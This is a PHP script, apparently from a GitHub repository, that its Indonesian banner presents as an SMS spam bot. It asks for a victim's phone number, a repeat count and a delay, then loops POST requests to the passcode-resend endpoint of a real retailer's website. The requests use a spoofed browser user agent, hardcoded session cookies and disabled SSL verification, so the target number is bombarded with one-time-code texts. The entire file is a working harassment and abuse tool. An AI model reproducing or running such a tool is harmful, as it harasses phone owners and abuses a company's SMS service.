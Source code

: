 # dams
&lt;?php function sophie($nohp, $jum, $wait){     $x = 0;      while($x &lt; $jum) {         $ch = curl_init();         curl_setopt($ch, CURLOPT_URL,"https://www.sophieparis.com/iregistration/ajax/sendpasscode/");         curl_setopt($ch, CURLOPT_POST, 1);         curl_setopt($ch, CURLOPT_POSTFIELDS,"mobilephone=$nohp&amp;resend=true");         curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);         curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);         curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);         curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);         curl_setopt($ch, CURLOPT_ENCODING, "gzip, deflate");         curl_setopt($ch, CURLOPT_REFERER, 'https://www.sophieparis.com/iregistration/member/revalidatesms/');  $headers = array();  $headers[] = "Authority: www.sophieparis.com";  $headers[] = "Accept: */*";  $headers[] = "X-Newrelic-Id: VQ8HV15WCBABV1RWDgcGUVM=";  $headers[] = "Sec-Fetch-Dest: empty";  $headers[] = "X-Requested-With: XMLHttpRequest";  $headers[] = "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.122 Safari/537.36";  $headers[] = "Content-Type: application/x-www-form-urlencoded; charset=UTF-8";  $headers[] = "Origin: https://www.sophieparis.com";  $headers[] = "Sec-Fetch-Site: same-origin";  $headers[] = "Sec-Fetch-Mode: cors";  $headers[] = "Accept-Language: en-US,en;q=0.9";  $headers[] = "Cookie: _ga=GA1.3.1653073049.1583108686; _gid=GA1.3.1507369321.1583108686; _hjid=c27f2024-b259-41fa-9ce9-73d8b5571b8f; toky_state=minimized; ins-gaSSId=e59f405d-6429-96d0-9eaf-2b92b66527a9_1583108691; _hjIncludedInSample=1; scarab.visitor=%222EAF352B0D1C530F%22; _fbp=fb.1.1583108698613.1373126036; frontend_cid=pimZ7VtcIRKBM2oi; am_promo_notification=0; frontend=laskgth5m8mkqfhjclgsilv9f0; MGT_NO_CACHE=1; insdrSV=11";           curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);  $server_output = curl_exec ($ch);  curl_close ($ch);  echo $server_output."\n";  sleep($wait);  $x++;  flush();     } } echo "[BOT SPAM YANG SUDAH TERDAFTAR DI SOPHIE] |S|M|S| |S|P|A|M|    Coded By : Dams \n";         echo "Nomor? (ex : 08xxxx)\nInput : ";         $nomor = trim(fgets(STDIN));         echo "Jumlah?\nInput : ";         $jumlah = trim(fgets(STDIN));         echo "Jeda? 0-9999999999 (ex:0)\nInput : ";         $jeda = trim(fgets(STDIN));         echo "+==========RESULT=========+\n";         $execute = sophie($nomor, $jumlah, $jeda);         print $execute;         echo "+===========END===========+\n"; ?>
